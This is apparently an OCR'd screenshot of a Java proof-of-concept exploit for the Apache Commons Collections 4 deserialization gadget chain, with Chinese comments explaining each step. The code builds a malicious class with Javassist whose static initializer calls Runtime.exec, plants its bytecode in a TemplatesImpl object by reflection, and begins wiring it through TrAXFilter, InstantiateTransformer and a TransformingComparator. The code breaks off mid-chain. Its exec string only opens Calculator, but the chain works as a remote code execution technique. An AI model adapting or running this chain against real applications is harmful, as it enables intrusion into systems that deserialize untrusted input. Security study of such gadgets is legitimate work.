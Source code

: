    public class CommonsCollection4 {
    
    
        public static void main(String[] args) throws Exception {
            String AbstractTranslet="com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet";
            String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
    
            ClassPool classPool=ClassPool.getDefault();//返回默认的类池
            classPool.appendClassPath(AbstractTranslet);//添加AbstractTranslet的搜索路径
            CtClass payload=classPool.makeClass("com/akkacloud/CommonsCollection2Test");//创建一个新的public类
            payload.setSuperclass(classPool.get(AbstractTranslet));  //设置前面创建的CommonsCollections22222222222类的父类为AbstractTranslet
            payload.makeClassInitializer().setBody("java.lang.Runtime.getRuntime().exec(\"open /System/Applications/Calculator.app\");"); //创建一个空的类初始化，设置构造函数主体为runtime
    
            //payload.writeFile("/Users/akka/Documents/study/JAVA-project/ysoserial/CommonsColection2/src/main/java");
            byte[] bytes=payload.toBytecode();//转换为byte数组
            //String TemplatesImpl="com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
            Object templatesImpl=Class.forName(TemplatesImpl).getDeclaredConstructor(new Class[]{}).newInstance();//反射创建TemplatesImpl
            Field field=templatesImpl.getClass().getDeclaredField("_bytecodes");//反射获取templatesImpl的_bytecodes字段
            field.setAccessible(true);//暴力反射
            field.set(templatesImpl,new byte[][]{bytes});//将templatesImpl上的_bytecodes字段设置为runtime的byte数组
    
            Field field1=templatesImpl.getClass().getDeclaredField("_name");//反射获取templatesImpl的_name字段
            field1.setAccessible(true);//暴力反射
            field1.set(templatesImpl,"test");//将templatesImpl上的_name字段设置为test
    
    /*        Method getTransletName = templatesImpl.getClass().getDeclaredMethod("getTransletName", new Class[]{});
            getTransletName.setAccessible(true);
            Object name = getTransletName.invoke(templatesImpl, new Object[]{});
            System.out.println(name.toString());
    
            Method getTransletBytecodes = templatesImpl.getClass().getDeclaredMethod("getTransletBytecodes", new Class[]{});
            getTransletBytecodes.setAccessible(true);
            byte[][] bytes1 = (byte[][]) getTransletBytecodes.invoke(templatesImpl, new Object[]{});
            for (int i = 0; i < bytes1.length; i++) {
                System.out.println(bytes1.length);
                System.out.println(Arrays.toString(bytes1[i]));
            }*/
    
            Transformer[] transformers=new Transformer[]{
                    new ConstantTransformer(TrAXFilter.class),//第一个获取TrAXFilter
                    new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templatesImpl})//通过InstantiateTransformer的构造方法传入我们的恶意类templatesImpl，调用其transform方法，实例化传入的TrAXFilter，调用其构造方法。再调用newTransform
    
            };
            ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);//新建一个ChainedTransformer类，传入我们的恶意transformers,只要调用transform方法就会反射执行我们的传入的恶意传入我们的恶意transformers
    
            TransformingComparator transformingComparator = new TransformingComparator<>(chainedTransformer);
    